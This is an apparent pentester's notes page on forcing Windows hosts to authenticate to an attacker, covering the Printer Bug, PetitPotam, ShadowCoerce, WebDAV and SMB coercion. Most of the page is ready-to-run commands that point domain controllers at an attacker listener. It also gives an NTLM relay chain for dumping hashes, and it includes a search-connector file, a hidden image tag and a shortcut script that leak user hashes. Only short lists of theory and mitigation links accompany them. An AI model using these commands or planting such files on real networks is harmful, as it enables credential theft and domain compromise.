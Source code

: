 # Authentication Coercion

- [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)

{% hint style="info" %}
It's a good idea to check if **NTLMv1 downgrade** is possible when triggering the callbacks.
{% endhint %}

{% content-ref url="/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade.md" %}
[ntlmv1-downgrade.md](ntlmv1-downgrade.md)
{% endcontent-ref %}




## Printer Bug (MS-RPRN)

{% embed url="https://twitter.com/DebugPrivilege/status/1410158556540719104" %}

Check if Spooler is running via Remote Registry:

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 -e MS-RPRN -e MS-PAR
```



### SpoolSample

* [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe](https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe)
* [https://github.com/BeetleChunks/SpoolSploit](https://github.com/BeetleChunks/SpoolSploit)

```
Cmd > .\SpoolSample.exe 192.168.1.11 10.10.13.37
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@80/test.txt
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@SSL/test.txt
```



### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@SSL/test.txt DC01.megacorp.local
```



### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@80/test.txt
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@SSL/test.txt
```




## PetitPotam (MS-EFSR)

**CVE-2021-36942**

* [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)
* [https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e](https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e)
* [https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)

```
$ python3 PetitPotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@80/test.txt 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@SSL/test.txt 192.168.1.11
Cmd > .\PetitPotam.exe 10.10.13.37 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@80/test.txt 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@SSL/test.txt 192.168.1.11 1
```

PetitPotam any host (not only a DC with null sessions allowed for the `IPC$` share) without initial creds via proxying through an authenticated session on behalf a DC-relayed machine account:

```
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.123
Something went wrong, check error status => SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

$ sudo ntlmrelayx.py -ip 10.10.13.37 -t 192.168.1.123 -smb2support --no-http-server --no-wcf-server -socks

$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 DC1.megacorp.local
ntlmrelayx> socks
ntlmrelayx> stopservers

$ sudo ./Responder.py -I eth0 -vA 
$ proxychains4 python3 Petitpotam.py -d MEGACORP -u 'DC1$' -no-pass 10.10.13.37 192.168.1.123
```

{% hint style="hint" %}
NTLM Relay DC1 to EXCH1 to get SOCKS ➡️ SOCKS proxy PetitPotam to EX1 as `DC1$` ➡️ NTLM Relay to EXCH2 to dump hashes
{% endhint %}

With Kerberos authentication:

```
$ getTGT.py megacorp.local/snovvcrash -hashes e929e69f7c290222be87968263a9282e:e929e69f7c290222be87968263a9282e -dc-ip 192.168.1.11
$ KRB5CCNAME=`pwd`/snovvcrash.ccache python3 PetitPotam.py -k -no-pass -d megacorp.local -u snovvcrash target.megacorp.local attacker.megacorp.local
```



### Theory

* [https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html](https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html)
* [https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html](https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html)
* [https://itm4n.github.io/fuzzing-windows-rpc-rpcview/](https://itm4n.github.io/fuzzing-windows-rpc-rpcview/)
* [https://itm4n.github.io/from-rpcview-to-petitpotam/](https://itm4n.github.io/from-rpcview-to-petitpotam/)
* [https://clearbluejar.github.io/posts/from-ntobjectmanager-to-petitpotam/](https://clearbluejar.github.io/posts/from-ntobjectmanager-to-petitpotam/)



### Mitigation

- [https://kb.cert.org/vuls/id/405600](https://kb.cert.org/vuls/id/405600)
- [https://zeronetworks.com/blog/stopping_lateral_movement_via_the_rpc_firewall/](https://zeronetworks.com/blog/stopping_lateral_movement_via_the_rpc_firewall/)
- [https://github.com/zeronetworks/rpcfirewall](https://github.com/zeronetworks/rpcfirewall)




## ShadowCoerce (MS-FSRVP)

- [https://pentestlaboratories.com/2022/01/11/shadowcoerce/](https://pentestlaboratories.com/2022/01/11/shadowcoerce/)
- [https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)

```
$ python3 shadowcoerce.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 192.168.1.11
```




## WebDAV (WebClient)

- [https://pentestlab.blog/2021/10/20/lateral-movement-webclient/](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
- [https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)

Check if callback via WebDAV (HTTP) is possible. It **is** when the `WebClient` service is running. If it's possible, then [NTLM Relay to LDAPS](/pentest/infrastructure/ad/delegation-abuse/rbcd#dhcpv6-wpad-ntlm-relay-rbcd) on behalf of the relayed machine account is your chance for [RBCD workstation takeover](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb).

Check via PowerShell:

```
PS > Install-Module -Name NtObjectManager
PS > Get-NtFile -Win32Path '\\192.168.1.11\pipe\DAV RPC SERVICE'
```

Check via CME:

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M webdav
```

Check via [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus):

```
PS > .\GetWebDAVStatus.exe SRV01,SRV02 --tc 1
```

### Enable WebClient

Put the `.searchConnector-ms` file on a writable share. When a domain user opens target folder in explorer, the WebClient service should start automatically:

{% code title="Documents.searchConnector-ms" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endcode %}




## Force SMB authentication

- [https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)

Forcing with a hidden image:

```html
<img src="\\10.10.13.37\pwn.ico" height="1" width="1" />
```

Forcing with a shortcut:

{% code title="lnk.ps1" %}
```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("\\SRV01\PublicShare\pwn.lnk")
$lnk.IconLocation = "\\10.10.13.37\pwn.ico"
$lnk.Save()
```
{% endcode %}
